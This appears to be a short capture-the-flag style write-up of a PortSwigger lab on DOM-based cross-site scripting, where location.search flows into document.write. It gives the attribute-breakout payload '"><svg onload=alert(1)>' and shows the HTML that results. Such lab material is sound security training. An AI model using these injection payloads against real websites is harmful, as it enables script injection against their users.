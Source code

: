 # DOM XSS in document.write sink using source location.search

This lab contains a DOM-based cross-site scripting vulnerability in the search query tracking functionality. It uses the JavaScript `document.write` function, which writes data out to the page. The `document.write` function is called with data from `location.search`, which you can control using the website URL.

![image](https://github.com/offensivecyber03/PortSwigger/assets/71892943/4e6031e4-3e3c-4169-9062-636c7c5b4b26)

DOM invader shos how function used 
```bash
<img src="/resources/images/tracker.gif?searchTerms=mpk7ctdm">
```
as a result malicious payload will be `"><svg onload=alert(1)>` because in the end final payload will be:
```bash
<img src="/resources/images/tracker.gif?searchTerms=mpk7ctdm"><svg onload=alert(1)>
```
